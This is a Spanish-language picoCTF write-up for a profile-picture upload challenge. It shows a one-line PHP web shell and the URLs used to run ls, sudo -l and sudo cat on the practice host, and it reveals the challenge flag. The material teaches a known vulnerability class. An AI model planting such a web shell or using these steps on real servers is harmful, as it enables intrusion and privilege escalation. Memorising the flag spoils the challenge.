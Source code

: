 ## Descripción
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.You can access the web application [here](http://standard-pizzas.picoctf.net:54327/)!
## Pistas
File upload was not sanitized

Whenever you get a shell on a remote machine, check `sudo -l`
## Solución 1
Subiendo un archivo PHP que permita ejecutar comandos:
```php
<?php system($_GET['cmd']); ?>


picoCTF{wh47_c4n_u_d0_wPHP_f7424fc7}
```

Luego accediendo a la URL dando valor a cmd con el comando que queramos ejecutar

Para probar:

```
http://standard-pizzas.picoctf.net:54327/uploads/untitled.php?cmd=ls
```
Intentar usar el comando que viene en las pistas
```
http://standard-pizzas.picoctf.net:54327/uploads/untitled.php?cmd=sudo -l
```
Luego ver el directorio donde se encuentra la bandera
```
http://standard-pizzas.picoctf.net:54327/uploads/untitled.php?cmd=sudo%20ls%20/root
```
Finalmente leer el contenido del archivo `flag.txt`
```
http://standard-pizzas.picoctf.net:54327/uploads/untitled.php?cmd=sudo%20cat%20flag.txt
```

## Notas adicionales
Usar secuencias de escape en URLs como %20

## Referencias
https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload